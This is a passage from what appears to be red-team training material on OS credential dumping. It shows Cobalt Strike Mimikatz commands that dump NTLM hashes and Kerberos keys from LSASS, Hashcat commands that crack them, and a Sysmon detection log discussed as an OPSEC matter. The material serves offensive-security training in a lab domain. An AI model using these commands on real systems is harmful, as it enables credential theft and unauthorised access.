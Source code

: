 
OS Credential Dumping is a technique [T1003](https://attack.mitre.org/techniques/T1003/) where an adversary extracts credential material, that are either stored or cached, from the Operating System.  Each sub-technique detailed here requires SYSTEM privileges to the computer.

### LSASS Memory

The Local Security Authority Subsystem Service (LSASS) on Windows is responsible for  verifying the credentials of users when logging in, handling password changes, creating access tokens, and so on.  An adversary may be able to read passwords cached inside memory of the LSASS process [T1003.001](https://attack.mitre.org/techniques/T1003/001/)

Microsoft provides something called the Security Support Provider Interface (SSPI), which is their implementation of the Generic Security Service API (GSSAPI).   SSPs are used to provide different authentication mechanisms for Windows, including:

- _NTLM_ for authentication via NTLM and NTLMv2.
- _Kerberos_ for authentication via Kerberos v5. 
- _Digest_ for Lightweight Directory Access Protocol (LDAP) and web authentication.
- _Schannel_ for authentication via public key cryptography, such as TLS and SSL.
- Credential Security Service Provider (_CredSSP_) for single sign-on with Terminal Services and Remote Desktop sessions.

Each SSP is implemented as separate DLLs, which are loaded by LSASS when the system starts.  Each SSP will therefore handle, structure, and credentials in different ways.  This is relevant to know, because some tools, such as Mimikatz, have specific commands depending on which SSP you want to read from.

An implementation of Mimikatz is built into Cobalt Strike.  The `mimikatz` command can be used to run any arbitrary Mimikatz command, and there are other commands which act as aliases for commonly-used functionality.  The command can also be pre-pended with a `!` or `@` character (which is unique to Cobalt Strike's implementation) which adds some extra steps.  Use `!` to make Mimikatz elevate to SYSTEM before running the specified command.  This is required by some commands, such as `lsadump::sam`.  Use `@` to make Mimikatz impersonate Beacon's thread token before running the specified command.  This is useful when impersonating users and running commands that interact with remote resources, such as `lsadump::dcsync`.

### NTLM Hashes

The `logonpasswords` command is an alias for `sekurlsa::logonpasswords` which can dump NTLM hashes for users that have recently authenticated to the computer.

```powershell
beacon> mimikatz sekurlsa::logonpasswords

User Name         : pchilds
Domain            : CONTOSO
Logon Server      : LON-DC-1
Logon Time        : 17/02/2025 09:45:28
SID               : S-1-5-21-3926355307-1661546229-813047887-1105
	msv :	
	 [00000003] Primary
	 * Username : pchilds
	 * Domain   : CONTOSO
	 * NTLM     : fc525c9683e8fe067095ba2ddc971889
	 * SHA1     : e53d7244aa8727f5789b01d8959141960aad5d22
	 * DPAPI    : 650b40d81e1d02eb6908bbcefcf78732

User Name         : rsteel
Domain            : CONTOSO
Logon Server      : LON-DC-1
Logon Time        : 17/02/2025 09:53:40
SID               : S-1-5-21-3926355307-1661546229-813047887-1108
	msv :	
	 [00000003] Primary
	 * Username : rsteel
	 * Domain   : CONTOSO
	 * NTLM     : fc525c9683e8fe067095ba2ddc971889
	 * SHA1     : e53d7244aa8727f5789b01d8959141960aad5d22
	 * DPAPI    : c249dfed28f9c95fa91792eed37d2444
```

These can be cracked using hash mode 1000 in Hashcat.

```powershell
PS C:\Tools\hashcat> .\hashcat.exe -a 0 -m 1000 .\ntlm.hash .\example.dict -r .\rules\dive.rule fc525c9683e8fe067095ba2ddc971889:Passw0rd!
```

Or they can be used with the [pass-the-hash](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops&unit=6731fbc37399aa8c4905789c) technique.

### Kerberos Keys

Mimikatz's `sekurlsa::ekeys` command will dump user's Kerberos encryption keys.

```powershell
User Name         : pchilds
Domain            : CONTOSO
Logon Server      : LON-DC-1
Logon Time        : 17/02/2025 09:45:28
SID               : S-1-5-21-3926355307-1661546229-813047887-1105

	 * Username : pchilds
	 * Domain   : CONTOSO.COM
	 * Password : (null)
	 * Key List :
	   des_cbc_md4       7fae91afb4f60917ffa16c09283f3978ac71dff4e34d738d268bb49311f6c77d
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889

User Name         : rsteel
Domain            : CONTOSO
Logon Server      : LON-DC-1
Logon Time        : 17/02/2025 09:53:40
SID               : S-1-5-21-3926355307-1661546229-813047887-1108

	 * Username : rsteel
	 * Domain   : CONTOSO.COM
	 * Password : (null)
	 * Key List :
	   des_cbc_md4       05579261e29fb01f23b007a89596353e605ae307afcd1ad3234fa12f94ea6960
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889
```

> Note that Mimikatz incorrectly labels each hash as _des_cbc_md4_.  The hash at the top has a length of 64 and is _aes256-cts-hmac-sha1-96_.  You may also see _aes128-cts-hmac-sha1-96_ and _rc4_hmac_ which are 32 in length.

You can technically crack AES256 but they are much slower compared to NTLM because they are salted.  My 4070 GPU benchmarks NTLM at 140 GH/s and AES256 at only 1375 kH/s.  The hash format required by Hashcat is `$krb5db$18$<username>$<DOMAIN-FQDN>$<hash>` and can be cracked using hash mode 28900.

```powershell
PS C:\Tools\hashcat> .\hashcat.exe -a 0 -m 28900 .\sha256.hash .\example.dict -r .\rules\dive.rule
$krb5db$18$rsteel$CONTOSO.COM$05579261e29fb01f23b007a89596353e605ae307afcd1ad3234fa12f94ea6960:Passw0rd!
```

# OPSEC

Dumping credentials from LSASS is generally a bad idea from an OPSEC perspective, and best avoided where possible.  Security drivers can use the [ObRegisterCallbacks](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-obregistercallbacks) kernel function to get notified when one process opens a handle to another process.  Here's an example log generated by Sysmon when credentials are dumped from LSASS.

```powershell
Process accessed:

SourceProcessId: 5744
SourceThreadId: 4724
SourceImage: C:\Windows\system32\rundll32.exe
TargetProcessId: 772
TargetImage: C:\Windows\system32\lsass.exe
GrantedAccess: 0x1010
CallTrace: C:\Windows\SYSTEM32\ntdll.dll+9d9b4|C:\Windows\System32\KERNELBASE.dll+338ae|UNKNOWN(00000202CDF78124)
SourceUser: NT AUTHORITY\SYSTEM
TargetUser: NT AUTHORITY\SYSTEM
```

> The **GrantedAccess** mask of `0x1010` is consistent with `PROCESS_QUERY_LIMITED_INFORMATION | PROCESS_VM_READ`, which are the minimum privileges required for reading memory.

### Security Account Manager